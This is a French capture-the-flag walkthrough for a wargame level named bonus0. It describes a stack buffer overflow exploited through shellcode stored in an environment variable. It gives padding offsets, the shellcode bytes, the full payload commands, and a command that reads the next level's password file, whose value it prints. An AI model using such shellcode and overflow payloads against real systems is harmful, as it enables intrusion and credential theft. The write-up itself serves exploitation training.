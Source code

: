 Cela confirme que les caractères aux positions 10-13 dans notre seconde entrée écrasent l'adresse de retour. Par conséquent, nous avons besoin de:

- 9 octets de bourrage (padding)
- 4 octets pour notre adresse de shellcode
- Des octets de bourrage supplémentaires pour assurer une exécution fiable

À travers des tests supplémentaires, nous avons découvert une exigence additionnelle: la seconde entrée doit faire au moins 20 octets au total (incluant nos 9 octets de bourrage, l'adresse de 4 octets, et au moins 7 octets supplémentaires) pour que l'exploit fonctionne de façon fiable.

```bash
# Celui-ci a échoué (seulement 6 octets de bourrage après l'adresse)
python -c "print 'B'*4095 + '\n' + 'A'*9 + '\xa8\xff\xff\xbf' + 'A'*6" > /tmp/myexploit

# Celui-ci a fonctionné (7 octets de bourrage après l'adresse)
python -c "print 'B'*4095 + '\n' + 'A'*9 + '\xa8\xff\xff\xbf' + 'A'*7" > /tmp/myexploit
```

Cette approche basée sur un motif nous donne une compréhension précise de comment positionner notre adresse de shellcode pour contrôler de manière fiable l'exécution du programme.

## Exploit Final

En rassemblant tous les éléments:

```bash
# Configuration du shellcode dans une variable d'environnement
SHELLCODE=$(python -c 'print "\x90"*50 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"')

# Trouver l'adresse du shellcode dans un environnement propre
env -i SHELLCODE=$SHELLCODE /tmp/get_shellcode_addr
# SHELLCODE address: 0xbfffffa8

# Créer l'entrée d'exploit avec au moins 20 octets pour la seconde entrée (9+4+7=20)
python -c "print 'A'*4095 + '\n' + 'B'*9 + '\xa8\xff\xff\xbf' + 'C'*7" > /tmp/payload

# Exécuter l'exploit
(cat /tmp/payload; cat) | env -i SHELLCODE=$SHELLCODE ./bonus0
```

## Récupération du Mot de Passe

Après avoir exécuté l'exploit, nous avons obtenu un accès au compte utilisateur `bonus1` et récupéré le mot de passe:

```bash
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```

## Passage au Niveau Suivant

Utilisez ce mot de passe pour vous connecter en tant que `bonus1` et passez au défi suivant.
